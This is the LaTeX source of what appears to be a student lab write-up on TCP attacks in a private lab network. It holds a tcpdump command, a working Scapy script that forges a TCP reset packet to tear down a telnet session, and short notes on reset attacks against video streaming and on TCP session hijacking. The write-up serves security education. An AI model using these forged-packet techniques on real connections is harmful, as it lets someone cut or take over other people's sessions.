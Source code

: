 \documentclass{article}
\newcommand{\code}[1]{{\ttfamily #1}}
\begin{document}
\begin{tlist}{3}
  Capture: \code{sudo tcpdump tcp and host 192.168.137.150 and 192.168.137.140}\\
  Python:
  \begin{tlist}{2}
    \item[]
    \code{
\#!/usr/bin/pyton3\\
from scapy.all import *
\vspace{12pt}\\
ip = IP(src="192.168.137.150", dst="192.168.137.140")\\
tcp = TCP(sport=46176, dport=23, flags="R", seq=3375652917, ack=1837764021)\\
pkt = ip/tcp\\
ls(pkt)\\
print(pkt)\\
send(pkt, verbose=0)
    }
  \end{tlist}
  Screenshot:
  \href{https://i.loli.net/2018/09/12/5b9810585b7d3.png}{Attacker},
  \href{https://i.loli.net/2018/09/12/5b98105863974.png}{Client},
  \href{https://i.loli.net/2018/09/12/5b981058a7e99.png}{RST request}.\\
  To be honest, I didn't successed at first time. In the first several try, I didn't noticed that the seq and ack number displayed in wireshark is quoted as "relative sequence number", and obviously I won't success with those relative value. So after I turn off the "Display relatively" in wireshark. I made it in one shoot.
\end{tlist}

\subsection{TCP RST Attacks on Video Streaming Applications}
This task is essentially the same as the task 2, but with the GUI response. I shouldn't and didn't encounter any issure for this task.

\subsection{TCP Session Hijacking}
To conduct this attack, you should detect the correct seq and ack number as same as the previous tasks. And remember to convert the plaint text into hexed text.\\
Screenshot:
\href{https://i.loli.net/2018/09/13/5b99bffc69cdc.png}{Convert},
\href{https://i.loli.net/2018/09/13/5b99c04020f57.png}{Detection},
\href{https://i.loli.net/2018/09/13/5b99c05fee0db.png}{Hijack}.
\end{document}
